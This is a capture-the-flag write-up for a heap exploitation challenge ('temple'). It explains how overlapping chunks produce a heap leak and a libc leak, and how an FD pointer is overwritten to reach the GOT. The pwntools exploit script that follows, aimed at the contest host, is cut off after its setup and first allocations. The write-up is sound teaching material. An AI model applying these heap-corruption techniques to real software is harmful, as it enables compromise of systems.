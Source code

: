 ### Heap Leak

The metadata chunk contains some important pointers regarding the size of our data, pointer to our data and a
string called "Neonate". When we overlap using the backward consolidation technique, we automatically affect the size field
of our data. So when we print the data, it uses a size variable from the metadata chunk to see how many bytes to print,
instead of using just some string function to print (which automatically stops at "\x00").

So fgets() and a NULL byte cannot stop us from leaking.
We can thus leak address `0x21bd2b0` , which technically is a metadata chunk, has been overlapped with a data chunk.

### Libc Leak

The string called "Neonate" is actually printed everytime we free. So we can overwrite that with a got address.

### Exploit

Finally, we overwrite the `FD` pointer of the chunk and make it point to a GOT address instead of our normal heap data chunk.
Then we can use the `rethink` function to edit it. (Thanks __rex__ for making me realise this......Partial RELRO is just LOLZZZ)

```python
#!/usr/bin/python
from pwn import *

#p = process("./temple")
elf = ELF("./libc.so.6")
p = remote("temple.tuctf.com", 4343)
raw_input()

def menu():
	p.recvuntil("choice:")

def give_wisdom(length,wisdom):
	menu()
	p.sendline("2")
	p.recvuntil("hold?:")
	p.sendline(str(length))
	p.recvuntil("wisdom?:")
	p.sendline(wisdom)

def take_wisdom(idx):
	menu()
	p.sendline("1")
	p.recvuntil("seek?:")
	p.sendline(str(idx))
	leak = p.recvuntil("\n")
	return leak

def rethink(idx,wisdom):
	menu()
	p.sendline("3")
	p.recvuntil("rethink?:")
	p.sendline(str(idx))
	p.recvuntil("differently?:")
	p.sendline(wisdom)

buf = "A"*32
give_wisdom(32,buf)	# 8
give_wisdom(32,buf)	# 9
```